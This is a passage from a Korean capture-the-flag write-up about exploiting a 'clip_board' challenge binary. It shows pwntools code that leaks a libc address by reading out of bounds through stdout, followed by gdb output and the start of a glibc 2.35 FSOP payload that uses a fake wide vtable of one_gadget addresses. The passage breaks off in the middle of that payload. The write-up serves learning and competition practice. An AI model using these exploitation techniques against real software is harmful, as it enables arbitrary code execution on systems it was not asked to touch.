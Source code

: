`0x555555558008` 영역에 `__dso_handle`라는 변수명으로 bss 영역의 주소가 쓰여있어 확인해보니 `fini_array`의 `__do_global_dtors_aux`에서 한번 참조하는 것을 제외하고는 참조되지 않는다. 이 문제에서는 딱히 의미가 없지만 기억해뒀다가 나중에 써먹으면 좋을 것 같다.

`stdin`은 `chunk_list[-2]`, `stdout`은 `chunk_list[-4]`로 접근이 가능한데, `ViewClipboard`로 값을 읽어오기 위해서는 `check_chunk_list[-2]`나 `check_chunk_list[-4]`에 `0`이 아닌 값을 넣을 수 있어야 한다.

그렇다면 `0x55555555808e` 혹은 `0x55555555808c`에 값을 넣어야 한다는 소린데, `index`를 `9`로 입력해서 `0x555555558088`에 `malloc()`이 반환한 값을 저장한다고 해도 주소 값이 쓰일테니 `0x55555555808e`에는 `0`이 들어간다.

따라서 `stdout`만 `view`가 가능하고, 다음과 같은 payload로 libc 주소를 얻었다.
``` python
    # leak libc
    add_clipboard(s, 1, 0x10, b"A" * 0x10)
    add_clipboard(s, 9, 0x10, b"B" * 0x10)
    r = view_clipboard(s, -4)
    libc = u64(r[8:16]) - 0x21b803
    stdout_fp = r[0:0xe0]
    log.info(f"libc : {hex(libc)}")

    # clean clipboards
    del_clipboard(s, 1)
    del_clipboard(s, 9)
```

### FSOP
``` bash
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000555555554000 0x0000555555555000 0x0000000000000000 r-- /home/user/clip_board
0x0000555555555000 0x0000555555556000 0x0000000000001000 r-x /home/user/clip_board
0x0000555555556000 0x0000555555557000 0x0000000000002000 r-- /home/user/clip_board
0x0000555555557000 0x0000555555558000 0x0000000000002000 r-- /home/user/clip_board
0x0000555555558000 0x0000555555559000 0x0000000000003000 rw- /home/user/clip_board
```
Full RELRO가 적용되어있기 때문에 GOT영역은 `write`가 불가능하므로 `0x555555558000`와 `chunk_list`의 사이에는 `stdout`, `stdin`밖에 없다.

`stdout`, `stdin`을 바꿔서 RIP control을 해야하니 자료를 찾아보다가 FSOP 기법을 발견했다.

FSOP 기법은 [이 글](../exploiting-fsop-in-glibc-2-35/)에 정리한 내용을 사용했다.

문제에서는 `AddClipboard()` 기능을 이용하여 메모리를 마음대로 할당받을 수 있고, 처음에 heap 주소를 주었으니 offset을 계산하여 다음과 같이 payload를 작성했다.
``` python
    # allocate wide_vtable
    one_gadget = libc + 0xebc85
    payload = p64(0) * 2                        # dummy
    payload += p64(one_gadget) * 19
    add_clipboard(s, 6, len(payload), payload)
    wide_vtable = heap + 0x4a0

    # allocate anywhere can read / write
    add_clipboard(s, 7, 0x100, b"\x00" * 8)
    anywhere_rw = heap + 0x550

    # allocate wide_data
    payload = bytearray(0x100)
    payload[0x18:0x20] = p64(0)
    payload[0x20:0x28] = p64(anywhere_rw)
    payload[0x30:0x38] = p64(0)
    payload[0xe0:0xe8] = p64(wide_vtable)
    add_clipboard(s, 8, len(payload), payload)
    wide_data = heap + 0x660

    # allocate new_fp and overwrite stdout
    io_wfile_jumps = libc + 0x2170c0
```